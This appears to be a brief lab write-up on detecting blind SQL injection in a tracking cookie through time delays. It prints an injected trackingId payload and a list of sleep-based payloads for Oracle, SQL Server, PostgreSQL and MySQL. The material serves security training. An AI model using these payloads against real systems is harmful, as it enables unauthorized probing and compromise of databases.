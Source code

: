 **Exploiting blind SQL injection by triggering time delays**

*Vulnerable parameters - tracking cookie*
*- Goal:* prove that the web app is vulnerable with parameter cookie and Blind SQL base on time delays
*- Analysis:*
- Try what type of databse that the web used:
  `SELECT trackingId from trackingIdTable where trackingId='2RaW12NfteV9OqP9' || (SELECT pg_sleep(10))--`
> Oracle :	dbms_pipe.receive_message(('a'),10)
Microsoft:	WAITFOR DELAY '0:0:10'
PostgreSQL: 	' || (SELECT pg_sleep(10))--
MySQL: ' || (SELECT SLEEP(10))-- -x


CHUAW XONG